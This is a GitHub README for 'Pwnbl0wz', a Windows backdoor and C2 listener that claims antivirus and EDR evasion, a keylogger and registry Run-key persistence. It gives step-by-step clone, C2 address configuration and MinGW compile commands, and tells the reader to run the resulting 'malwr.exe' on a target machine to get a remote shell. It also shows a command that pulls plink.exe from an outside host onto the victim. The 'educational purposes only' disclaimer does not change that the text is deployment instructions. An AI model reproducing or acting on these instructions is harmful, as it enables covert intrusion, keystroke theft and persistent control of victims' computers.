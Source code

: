 # Pwnbl0wz - Windows C2-Listener & Backdoor
# <img src="https://i.imgur.com/3Pmapwm.png"></img>
       
<p align="left">
  <a href="#Installation" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Installation-red?style=for-the-badge"></a>
  <a href="#Configuration" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Configuration-blue?style=for-the-badge"></a>
  <a href="#Usage" target="_blank"><img alt="undefined" src="https://img.shields.io/badge/Usage-green?style=for-the-badge"></a>
</p>

### EDUCATIONAL PURPOSES ONLY! I AM NOT RESPONSIBLE FOR ANY HARM CAUSED BY PWNBL0WZ
>Fully Undetectable Windows backdoor w/ C2 Listener written in 100% C
>This project is still in development by me, maybe soon enough if i have time ill finish it 100%
<br><br>
<img src="https://i.imgur.com/AeXvJQj.png"></img>


<br>

**Features:**
- 100% FUD (Win defender/Malwarebytes/Kaspersky)
- 100% FUD WITHOUT USING ENCRYPTION
- COULD BE XOR ENCRYTPED
- C2-Listener has encrypted datastream
- Backdoor Compatible with cryptcat
- EDR/Firewall Evasion
- Inbuild Keylogger 
- Persistence through HKEY_CURRENT_USER

 ``HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run``
 
 <br><br>
 
 #### Commands C2 server
| Command   | Description                                                                    |
| --------- | ------------------------------------------------------------------------------ |
| `hodlme`  | Creates Persistency through registry key                                       |
| `cd`      | Allows you to change directories in the buffer                                 |
| `startkey`| Activates a keylogger which logs every keystroke                               |
| `q`       | Close and quits session                                                        |
| `download`| Download file to client from HTTP Server (coming soon)                         |
| `cleanme` | Clears logs left behind of backdoor and deletes itself (coming soon)           |


<br><br>
> The C2 listener works only on linux machines since i use ``bzero();`` 
> but could be used on windows if u uncommented

> ``/* #define fuqbillgatez(p, size) (void) memset((p), 0, (size)) */`` i made, you would need to implement the fuqbillgatez function.
<br><br>
<br>

#### Installation (c2 server)

**Step 1**
``git clone https://github.com/EmirhanSarikaya/Pwnbl0wz.git``

**Step 2**
``cd Pwnbl0wz``

**Step 3**
>Configurate the C2 address and C2 port in the source code and set to specified IP addy

```
C2_addr.sin_addr.s_addr = inet_addr("1.3.3.7"); // ip-addy of C2 server
C2_addr.sin_port = htons(1337); // C2 server port listener
```
**Step 4**
Use gcc to compile the c2.c file.
``gcc c2.c -o c2``

<br><br><br>


#### Configuration (Pwnbl0wz backdoor)

**Step 1**
``cd Pwnbl0wz``

**Step 2**
>Configurate the C2_IP and C2_PORT in the sourcecode to the address of the C2 listener you've set earlier.

```
C2_IP = "1.3.3.7"; // c2 ip addy here
C2_port = 1337;    // c2 listener port
```

**Step 3**
>Now after you've set the IP addy and port for C2 you can compile using MINGW for 32-bit
>Reason we are compiling for 32-bit is so it can be executed on both 32/64-bit machines

``i686-w64-mingw32-gcc -o malwr.exe malwr.c -lwsock32 -lwininet``

**Now you are ready 2 rock! :)**

<br><br>


### Usage backdoor and C2-Listener

1) The C2-listener has some commands that i've coded like hodlme, download ect..
2) Open the malware.exe that you've compiled using MINGW on the target machine
3) You should get a connection on the C2 server, from this point on you can travel through the shell on the system
4) You could also execute commands like ``download https://x.com/plink.exe`` or other commands you like. 




<br><br>
# LEGAL DISCLAIMER
ME (EMIRHAN SARIKAYA) HAS NOTHING TO DO WITH WHAT HAPPENS USING THIS BACKDOOR, I JUST CREATED THIS FOR EDUCATIONAL PURPOSES ONLY AND WONT USE IT FOR MALICIOUS PURPOSES, THEREFORE ANY DAMAGE OR HARM CREATED BY PWNBL0WZ HAS NOTHING TO DO WITH ME. I AM NOT RESPONSIBLE AND DO NOT CONDONE THIS TOOL FOR MALICIOUS PURPOSES!
